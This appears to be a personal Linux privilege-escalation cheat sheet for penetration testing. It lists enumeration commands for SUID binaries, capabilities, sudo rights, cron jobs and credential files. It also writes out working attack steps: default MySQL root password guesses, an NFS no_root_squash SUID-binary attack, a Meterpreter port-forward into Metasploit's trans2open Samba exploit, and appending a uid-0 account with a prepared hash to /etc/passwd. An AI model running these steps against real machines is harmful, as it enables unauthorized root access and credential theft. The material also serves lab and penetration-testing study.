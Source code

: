 My path to manually PE: 

**capabilities** are a fine‑grained way to give a process some—but not all—of the privileges normally reserved for root. Instead of “all or nothing” (setuid root), you can grant just the permissions you need.

## Capabilities: 
which gcc
which cc
which python
which perl
which wget
which curl
which fetch
which nc
which ncat
which nc.traditional
which socat

## Compilation? (Very Back Burner)
file /bin/bash
uname -a
cat /etc/*-release
cat /etc/issue


## What Arch?
file /bin/bash

## Kernel?
uname -a

## Issue/Release?
cat /etc/issue
cat /etc/*-release

## Are we a real user?
sudo -l
ls -lsaht /etc/sudoers

## Are any users a member of exotic groups?
groups <user>


## Check out your shell's environment variables...
env
https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/

## Users?
cd /home/
ls -lsaht

## Web Configs containing credentials?
cd /var/www/html/
ls -lsaht

## SUID Binaries?
find / -perm -u=s -type f 2>/dev/null

## GUID Binaries?
find / -perm -g=s -type f 2>/dev/null

## SUID/GUID/SUDO Escalation:
https://gtfobins.github.io/

## Binary/Languages with "Effective Permitted" or "Empty Capability" (ep):
https://www.insecure.ws/linux/getcap_setcap.html#getcap-setcap-and-file-capabilities
Get Granted/Implicit (Required by a Real User) Capabilities of all files recursively throughout the system and pipe all error messages to /dev/null.
getcap -r / 2>/dev/null


## We need to start monitoring the system if possible while performing our enumeration...
https://github.com/DominicBreuker/pspy/blob/master/README.md
cd /var/tmp/
File Transfer --> pspy32
File Transfer --> pspy64
chmod 755 pspy32 pspy64
./pspy<32/64>

## What does the local network look like?
netstat -antup
netstat -tunlp

## Is anything vulnerable running as root?
ps aux | grep -i 'root' --color=auto

## MYSQL Credentials? Root Unauthorized Access?
mysql -u root -p
Enter Password:
root : root
root : toor
root :

## A quick look at etc to see if any user-level people did special things:
cd /etc/
ls -lsaht
Anything other than root here?
• Any config files left behind?
→ ls -lsaht |grep -i ‘.conf’ --color=auto

• If we have root priv information disclosure - are there any .secret in /etc/ files?
→ ls -lsaht |grep -i ‘.secret’ --color=aut

## SSH Keys I can use perhaps for even further compromise?
ls -lsaR /home/

## Quick look in:
ls -lsaht /var/lib/
ls -lsaht /var/db/

## Quick look in:
ls -lsaht /opt/
ls -lsaht /tmp/
ls -lsaht /var/tmp/
ls -lsaht /dev/shm/

## File Transfer Capability? What can I use to transfer files?
which wget
which curl
which nc
which fetch (BSD)
ls -lsaht /bin/ |grep -i 'ftp' --color=auto

## NFS? Can we exploit weak NFS Permissions?
cat /etc/exports
no_root_squash?
https://recipeforroot.com/attacking-nfs-shares/

[On Attacking Machine]
mkdir -p /mnt/nfs/
mount -t nfs -o vers=<version 1,2,3> $IP:<NFS Share> /mnt/nfs/ -nolock
gcc suid.c -o suid
cp suid /mnt/nfs/
chmod u+s /mnt/nfs/suid
su <user id matching target machine's user-level privilege.>

[On Target Machine]
user@host$ ./suid


Where can I live on this machine? Where can I read, write and execute files?
/var/tmp/
/tmp/
/dev/shm/

Any exotic file system mounts/extended attributes?
cat /etc/fstab

Forwarding out a weak service for root priv (with meterpreter!):
Do we need to get a meterpreter shell and forward out some ports that might be running off of the Loopback Adaptor (127.0.0.1) and forward them to any (0.0.0.0)? If I see something like Samba SMBD out of date on 127.0.0.1 - we should look to forward out the port and then run trans2open on our own machine at the forwarded port.
https://www.offensive-security.com/metasploit-unleashed/portfwd/

Forwarding out netbios-ssn EXAMPLE:
meterpreter> portfwd add –l 139 –p 139 –r [target remote host]
meterpreter> background
use exploit/linux/samba/trans2open
set RHOSTS 0.0.0.0
set RPORT 139
run

Can we write as a low-privileged user to /etc/passwd?
openssl passwd -1
i<3hacking
$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.
echo 'siren:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:siren:/home/siren:/bin/bash' >> /etc/passwd
su siren
id

Cron.
crontab –u root –l

Look for unusual system-wide cron jobs:
cat /etc/crontab
ls /etc/cron.*

Bob is a user on this machine. What is every single file he has ever created?
find / -user bob 2>/dev/null

Any mail? mbox in User $HOME directory?
cd /var/mail/
ls -lsaht